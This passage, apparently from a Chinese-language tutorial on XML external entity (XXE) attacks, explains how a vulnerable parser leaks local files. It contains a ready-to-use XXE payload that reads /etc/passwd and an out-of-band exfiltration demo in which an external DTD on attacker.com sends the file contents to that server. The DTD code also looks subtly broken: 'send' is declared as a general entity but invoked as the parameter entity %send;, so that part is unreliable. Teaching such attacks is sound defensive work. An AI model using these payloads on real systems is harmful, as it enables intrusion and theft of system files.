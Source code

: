 ```python
except Exception as e:
    print(f"使用lxml解析时出错: {e}")

```

### 恶意XML文件示例

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

### 攻击流程详解

1. 攻击者创建包含外部实体引用的XML文件
2. 应用程序使用有漏洞的解析器处理该XML
3. 解析器遇到`&xxe;`引用时，会尝试读取`/etc/passwd`文件内容
4. 文件内容被插入到XML文档中，成为`<data>`元素的值
5. 应用程序获取并处理这个值，可能会：
   - 显示在页面上(信息泄露)
   - 存储在数据库中(数据污染)
   - 用于后续处理(可能触发其他漏洞)

### 数据外带演示

攻击者不仅可以读取文件，还可以将数据发送到外部服务器：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>
  <data>测试数据</data>
</root>
```

攻击者服务器上的`evil.dtd`内容：

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/collect?data=%file;'>">
%all;
%send;
```

这种攻击方式会：
1. 读取`/etc/passwd`文件内容
2. 将内容作为URL参数发送到攻击者的服务器
3. 攻击者无需依赖应用程序的响应即可获取数据
